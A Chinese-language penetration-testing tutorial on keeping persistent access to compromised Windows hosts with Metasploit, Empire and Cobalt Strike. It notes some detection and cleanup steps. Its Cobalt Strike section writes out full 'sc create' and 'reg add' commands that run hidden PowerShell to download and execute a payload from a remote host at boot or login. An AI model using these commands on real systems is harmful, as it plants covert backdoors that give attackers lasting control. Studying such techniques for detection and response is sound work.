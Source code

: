 
# 0x00 前言
在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。<br />那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？


# 0x01 MSF权限维持
使用MSF维持权限的前提是先获得一个_meterpreter_  shell，通过_meterpreter_ shell获取持久性shell的方法有两种：

**Persistence模块**<br />通过启动项启动(persistence)的方式，在目标机器上以反弹回连。<br />![privilege-3-1.png](_img\05-应急响应/1656919716270-96dc5c8c-68c1-44a6-980f-2d88f2354888.png)

```
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
```

生成的相关文件位置 ：
```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```
![privilege-3-2.png](_img\05-应急响应/1656919723991-c61929f2-a16d-41fa-8f92-8d041c2d8824.png)

**Metsvc 模块**<br />通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。<br />![privilege-3-3.png](_img\05-应急响应/1656919731169-85bcbf34-9b43-4714-8a42-83458514b2e5.png)

后门排查：目标主机上开启了一个Meterpreter服务。<br />![privilege-3-4.png](_img\05-应急响应/1656919737191-af7f3d18-7eb1-49f5-aa7c-d44e12251bbc.png)


# 0x02 Empire 权限维持
Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即<br />![privilege-3-17.png](_img\05-应急响应/1656919744796-75d54336-8695-4264-a6dd-a6ccf0220420.png)

| elevated（管理权限） | misc（杂项） | powerbreach | userland（用户权限） |
| --- | --- | --- | --- |
| registry* | add_netuser | deaduser | backdoor_lnk |
| schtasks* | add_sid_history* | eventlog* | registry |
| wmi* | debugger* | resolver | schtasks |
| wmi_updater* | disable_machine_acct_change* |  |  |
|  | get_ssps |  |  |
|  | install_ssp* |  |  |
|  | memssp* |  |  |
|  | skeleton_key* |  |  |


**注册表**
```
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
```
![privilege-3-5.png](_img\05-应急响应/1656919755446-f36c5b0d-6180-4b8c-8e67-80dda88a9a48.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：<br />![privilege-3-5.png](_img\05-应急响应/1656919762032-3b631208-55f7-4682-8940-c1ca92ef5797.png)

**计划任务**
```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
```
![privilege-3-7.png](_img\05-应急响应/1656919769393-be848a7f-d2c2-46d5-a5b4-0e468b03b71f.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell<br />![privilege-3-8.png](_img\05-应急响应/1656919777046-84f81dfb-60cb-4852-8051-758779a59b83.png)

**wmi**
```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
```
![privilege-3-9.png](_img\05-应急响应/1656919783632-c0a02051-abdc-478e-8d04-af51eef389a5.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。<br />![privilege-3-10.png](_img\05-应急响应/1656919788421-8d1cda42-ef7c-4da0-a92d-51dab26c30b7.png)


# 0x03 Cobalt Strike权限维持
通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。<br />![privilege-3-11.png](_img\05-应急响应/1656919809466-1b73a36f-3f77-4840-996e-4e0805cf6f7c.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。<br />![privilege-3-12.png](_img\05-应急响应/1656919814722-ee9a6b9a-d8f6-4daf-9e9b-c5a020e17897.png)

点击Launch后，返回powershell远程下载执行命令。<br />![privilege-3-13.png](_img\05-应急响应/1656919819827-99e99cee-aa66-47fa-9237-59a0a81ee509.png)

**服务自启动后门**
```
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
```

重启服务器后，成功返回一个shell。<br />![privilege-3-14.png](_img\05-应急响应/1656919826268-f0276d71-e107-4dc8-80fa-d2dc46a02856.png)

**注册表自启动**<br />在windows启动项注册表里面添加一个木马程序路径，如：
```
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f
```


账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。<br />![privilege-3-14.png](_img\05-应急响应/1656919840156-b45f8cf6-c2b8-427f-9a35-75ee423b17ad.png)


注册表还有哪些键值可以设置为自启动：
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

---


# 0x04 结束语
本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。
